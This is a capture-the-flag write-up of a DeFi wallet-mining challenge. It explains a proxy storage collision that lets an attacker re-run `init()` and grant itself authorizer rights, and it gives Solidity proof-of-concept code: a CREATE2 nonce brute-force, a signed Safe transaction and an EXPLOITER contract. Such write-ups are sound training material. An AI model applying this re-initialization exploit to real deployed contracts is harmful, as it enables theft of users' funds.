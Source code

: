 ## A storage collision between `AuthorizerUpgradeable` contract and its `TransparentProxy` allows an attacker to re-initialize the `AuthorizerUpgradeable` contract and set arbitrary values to the `wards` map

This challenge can be divided in 2 parts. 

The first one is to find a way to "guess" the nonce used the get the wrecked Safe wallet address. This can be done by simply use brute force to test different nonces until achieve the one that outputs the aim address:
```solidity
    for(uint256 i = 0; i<100; i++) {
        bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), i));
        address predictedAddress = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xff), address(proxyFactory), salt, codeHash))))); // SENDER IS PROXY FACTORY
        if(predictedAddress==USER_DEPOSIT_ADDRESS) guessedNonce = i;
    }
``` 

Now let's go with the second (and most fun) part:
Once we have the correct nonce, we have to find a way to create the wallet via `drop` function of the implementation contract. The problem is that only an authorized `ward` can use such function the create the Safe wallet and get the correspondant reward. 

The `AuthorizerUpgradeable` implementation contract has a state variable, `needsInit`, which is supposed to be set to 0 after the contract is initialized, preventing further calls to the `init()` function. The proxy contract, however, also has a state variable, `upgrader`, at the same storage slot.

The deployment flow for the Authorizer contract is as follows:
1. The `AuthorizerFactory` deploys the implementation contract.
2. The `init()` function is called, setting the `needsInit` variable to 0.
3. The `TransparentProxy` is deployed, referencing the implementation.
4. `setUpgrader()` function is then called on the proxy. This function modifies the `upgrader` variable in storage slot 0.

Since the `needsInit` and `upgrader` variables occupy the same storage slot, modifying `upgrader` also changes the value of `needsInit` from 0 to a non-zero value.

This change effectively re-enables the `init()` function on the Authorizer contract, as the require statement that checks if `needsInit` is 0 no longer reverts.


With all this known, the hole attack vector will be:

1. Guess the nonce ussed to pre-calculate the target Safe wallet address.
2. Call `init()` on the Authorizer to register the attacker's address as a valid ward. This is possible due to the storage collision.
3. Call `drop()` on the Authorizer as the newly-registered ward to create the Safe and claim the creation reward.
4. Transfer the tokens from the newly created Safe wallet to the intended user.
5. Transfer the creation award to the ward

As the challenge requires to make this in a single tx, we implement the logic on a contract constructor to make a single transaction -> the contract deployment. 

## PoC
On the test suite we apply the "off-chain" logic -> guess the nonce and prepare the call the recover the funds from the Safe wallet: 
```solidity
    function test_walletMining() public 
    checkSolvedByPlayer 
    {  
    // 1. Guess the nonce by brute force 
    address[] memory owners = new address[](1); 
    owners[0] = user;
    bytes memory initializer = abi.encodeCall(Safe.setup, (owners, 1, address(0), '', address(0), address(0),  0, payable(address(0)))); // I suppose is this, because is the initializer function of the Safe
    bytes memory initCode = abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy)))); // 
    bytes32 codeHash = keccak256(initCode);

    uint256 guessedNonce;
    
    for(uint256 i = 0; i<100; i++) {
        bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), i));
        address predictedAddress = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xff), address(proxyFactory), salt, codeHash))))); // SENDER IS PROXY FACTORY
        if(predictedAddress==USER_DEPOSIT_ADDRESS) guessedNonce = i;
    }

    // 2. Create signed calldata for execTransaction on Safe (this is what will transfer the 20M) -> we can make this because we have access to the PK of the wallet owner
        bytes memory data = abi.encodeWithSelector(token.transfer.selector, user, DEPOSIT_TOKEN_AMOUNT);
        // Calculate transaction hash
        bytes32 safeTxHash = keccak256(
            abi.encode(
                0xbb8310d486368db6bd6f849402fdd73ad53d316b5a4b2644ad6efe0f941286d8, // SAFE_TX_TYPEHASH,
                address(token),
                0,
                keccak256(data),
                Enum.Operation.Call,
                100000,
                100000,
                0,
                address(0),
                address(0),
                0 // nonce of the Safe (first transaction)
            )
        );
        bytes32 domainSeparator = keccak256(abi.encode(
            0x47e79534a245952e8b16893a336b85a3d9ea9fa8c573f3d803afb92a79469218, // DOMAIN_SEPARATOR_TYPEHASH,
            singletonCopy.getChainId(), 
            USER_DEPOSIT_ADDRESS
        ));
        // Sign the transaction
        bytes32 txHash = keccak256(abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);
        bytes memory signatures = abi.encodePacked(r, s, v);
        // Create execution data
        bytes memory execData = abi.encodeWithSelector(
            singletonCopy.execTransaction.selector, 
            address(token), 
            0, 
            data, 
            Enum.Operation.Call, 
            100000, 
            100000, 
            0, 
            address(0), 
            address(0), 
            signatures
        );

        // 3. We pass all the data the EXPLOITER constructor the perform the attack on a single transaction
        new EXPLOITER(
            USER_DEPOSIT_ADDRESS,
            authorizer,
            walletDeployer,
            initializer,
            guessedNonce,
            execData,
            token,
            ward
        );
}
```

The real attack is on the `EXPLOITER` constructor:
```solidity
contract EXPLOITER {
    constructor(
        address USER_DEPOSIT_ADDRESS,
        AuthorizerUpgradeable authorizer,
        WalletDeployer walletDeployer,
        bytes memory initializer,
        uint256 guessedNonce,
        bytes memory execData,
        DamnValuableToken token,
        address ward
    ) {
        // Re-init the Authorizer and call drop 
        address[] memory users = new address[](1);
        address[] memory aims = new address[](1);
        users[0] = address(this);
        aims[0] = USER_DEPOSIT_ADDRESS;
        authorizer.init(users, aims);
        walletDeployer.drop(USER_DEPOSIT_ADDRESS,initializer, guessedNonce); 

        // Transfer 20M to the user 
        address(USER_DEPOSIT_ADDRESS).call(execData);
        // transfer creation reward to ward
        token.transfer(ward, 1e18);
    }
}
```